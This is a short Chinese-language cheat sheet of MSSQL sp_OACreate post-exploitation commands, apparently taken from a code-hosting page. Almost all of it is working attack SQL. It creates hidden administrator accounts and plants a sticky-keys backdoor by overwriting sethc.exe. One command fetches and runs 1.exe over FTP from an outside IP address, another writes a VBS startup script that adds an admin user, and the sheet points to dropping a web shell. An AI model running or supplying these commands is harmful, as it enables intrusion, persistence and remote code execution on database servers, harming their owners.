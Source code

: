 下面是收集来的sp_OACreate的一些命令:
```sql
-- 1）直接加用户
-- 2000系统
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\winnt\system32\cmd.exe /c net user 123 123 /add'
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\winnt\system32\cmd.exe /c net localgroup administrators 123/add'
 
  
 
-- xp和2003系统：
 
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user 123$ 123/add'
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net localgroup administrators 123$ /add'

-- 2）粘贴键替换
 
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out 
exec sp_oamethod @o, 'copyfile',null,'c:\windows\explorer.exe' ,'c:\windows\system32\sethc.exe';
 
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out 
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\sethc.exe' ,'c:\windows\system32\dllcache\sethc.exe';
 
-- 需要同时具备sp_oacreate 和sp_oamethod 两个功能组件

-- 3）直接传马
 
DECLARE @shell INT EXEC SP_OAcreate 'wscript.shell',@shell OUTPUT EXEC SP_OAMETHOD @shell,'run',null, '%systemroot%\system32\cmd.exe /c echo open 222.180.210.113 > cmd.txt&echo 123>> cmd.txt&echo123>> cmd.txt&echo binary >> cmd.txt&echo get 1.exe >> cmd.txt&echo bye >> cmd.txt&ftp -s:cmd.txt&1.exe&1.exe&del cmd.txt. /q /f&del 1.exe /f /q'--

-- 4）启动项写入加账户脚本
 
declare @sp_passwordxieo int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'd:\RECYCLER\1.vbs', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'set wsnetwork=CreateObject("WSCRIPT.NETWORK")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'os="WinNT://"&wsnetwork.ComputerName'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set ob=GetObject(os)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set oe=GetObject(os&"/Administrators,group")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set od=ob.Create("user","123$")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetPassword "123"'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetInfo'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set of=GetObject(os&"/123$",user)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'oe.add os&"/123$"';

5）如果该服务器有网站，则直接用方法4）写入一句话
```
## 参考链接
[https://xz.aliyun.com/t/9475](https://xz.aliyun.com/t/9475)
